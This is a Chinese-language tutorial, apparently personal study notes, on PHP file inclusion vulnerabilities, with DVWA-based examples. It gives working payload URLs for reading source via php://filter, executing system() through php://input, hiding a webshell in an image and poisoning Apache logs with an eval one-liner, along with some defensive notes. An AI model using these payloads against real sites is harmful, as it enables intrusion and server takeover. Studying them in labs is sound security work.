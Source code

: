 #文件包含类
<br>
* 在PHP程序中出现较多，其他的较少

##文件包含漏洞分类及上传技巧

* 包含漏洞简介：<br>
  包含操作，在大多数web语言中都会提供的功能（比如包含一些跨站、防注入程序等），但PHP对于包含文件所提供的功能太强大、灵活，所以包含漏洞经常出现在PHP语言中，这也就导致出现了一个错误现状，很多初学者认为包含漏洞只出现在PHP语言之中，殊不知在其他语言中可能出现包含漏洞。这也应了一句老话：功能越强大，漏洞就越多。

*  PHP包含漏洞分类<br>
   包含漏洞不是语言的问题，而是人的思维问题！<br>
   PHP中的四个包含文件函数：include() , include_once() , require() 和 require_once() （在源码审计中，一定要留心有没有这四个函数，有的话过滤是不是严格有没有漏洞）。<br>
   下面我们一起来看PHP文件中的包含：
   + 1、本地包含LIF（一般）
   + 2、远程包含RLF，必须要PHP的配置文件PHP.XXX中有allow_url_include = on

###0X00 PHP本包含实例<br>
   * 当任何文件上传成功后，被以上四种PHP包含函数包含后，无论是什么文件格式，都会以PHP格式解析。所以如果在文件中插了木马，这个时候就很危险了。

###0X01 本地包含漏洞与图片结合<br>
   1. 将木马程序加载到图片里面去:
	   + 打开一张正常图片
	   + 随便找一个木马
	   + 使用edjpgcom.exe软件将木马插入到图片中
   2. 将图片上传，一般网站都不会拦截（此时图片还是可以正常打开的）
   3. 通过存在包含漏洞的页面来包含刚上传带一句话木马的图片
   4. ！！！【一定要注意相对路径】，page=../../hackable/uploads/test.jpg

###0X02 PHP远程包含实例
   1. 首先打开C:\php\php-5.2.14-win32\php-apache2handler.ini文件（大家的文件路径不一定是这个，大家一般的路径是php.ini），找到allow_url_include = off这一行，【把off改成on】
   2. 然后找到存在包含漏洞的页面，将包含函数的参数改为远程的一个页面（远程地址），如page = http://192.168.1.103:8080/index.asp，能看到直接运行起来了。如果index.asp是一个木马呢或者是一个php的木马页面呢？是不是也能运行起来，很危险了吧。



##文件包含读写文件

###0X03 PHP包含读文件
* 如： http://192.168.2.55:8080/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=x.php , 访问URL，得到经过base64加密后的字符串。经解密还原即可得到x.php。
* 【page(参数)=php://filter/read=convert.base64-encode/resource=xXX.php】有时候需要将read变成大写Read来绕过一些过滤，如sctf的homework
* http的内置协议是php协议php://filter
* 【条件】：一定要有GET传入 $_GET

###0X04 PHP包含写文件
*  构造URL: http://192.168.1.55:8080/dvwa/vulnerabilities/fi/?page=php://input ， 并且提交post数据为<?php system('netuser');?>?????【即自己要写入的内容】
*  ！！【注意】：只有allow_url_include为on的时候才可以使用，如果想查看回显结果那必须在C:\php\php-5.2.14-Win32下找到php-apache2handler.ini打开，查找dispaly_funtions=proc-open,oppen.exec.system......（这些都是危险的命令，一定不要打开。因为一般写web程序用不到这些命令，建议直接删掉）删掉sysytem重启Apache。

###0X05 PHP包含日志文件
* 当某个PHP文件存在本地包含漏洞，而却无法上传正常文件，这就意味着有包含漏洞却不能拿来利用，这时攻击者就有可能会利用Apache日志文件来入侵。
* Apache服务器运行后会生成两个日志文件，这两个文件是access.log（访问日志）和（错误日志），Apache的日志文件记录下我们的任何操作，并且写到访问日志文件access.log之中（时间、IP地址）
* 当没有开启远程包含、文件上传时，只能通过包含日志文件了<br>
  (必须要知道当前网页路径和日志的默认路径，然后来构造)
  1. 先在网址后面接/php<?php eval一句话木马?>访问，日志access.log会记录这一行为
  2. 包含日志文件access.log。【这一步必须要知道当前网页路径和日志的默认路径，然后来构造】
     + 构造：http://......./fi/?page=../../../../Apache-20/logs/access.log
     + 确保当前网站目录的../../../../的最终目录与Apache-20文件夹在一个目录下。
   3. 访问，看到页面上出现一句话木马。菜刀链接即可。

###0X06 截断包含
* 
```
<?php
   if(isset($_GET['page'])){
      include $_GET['page'].".php";
   }else{
      include 'home.php';
   }
?>
```
* 这种方法只适合magic quotes gpc=off的时候，在PHP的老版本中也是存在着一些其他的截断问题，不过现在已经很难见到了，比如：index.php?file=info.txt////......超过一定数据的/。
* 例如： ....../?page=1.jpg%00即可

###0X07 PHP内置协议
* PHP带有很多内置URL风格的封装协议，可用于类似fopen()、copy()、file_exists()和filesize()的文件系统函数
* 具体协议请参照http://www.php.net/manual/zh/wrappers.php
* 图片1

###0X08 PHP远程包含防御
* 以DVWN-File Inclusion为例，安全级别低中高
  + low:

    ```
    <?php $file = $_GET['page']; //The page we wish to display ?>
    ```
  + Medeium:

    ```
    <? php
       $file = $_GET['page']; //The page we wish to display
       //bad input validation
       $file = str_replace("http://"," ", $file); //在传入的$file中搜索http://，替换成空格后，重新赋给$file
       $file = str_replace("https://"," ", $file); // 易绕过，函数str_replace区分大小写，一旦大写等于没做防御
    ?>
   + High:

     ```
     <? php
        $file = $_GET['page']; //The page we wish to display 
        //Only allow include.php
        if ($file != "include.php"){
           echo "ERROR: File not found";
           exit;
        }
      ?>

###运用实例：
* 从网上下载copyright2007-2011 易酷CMS Some Rights Reserved版本到本地测试
* 漏洞利用过程（包含日志文件）： http://www.wooyun.org/bugs/wooyun-2010-061639
* 在本地模拟这些实验

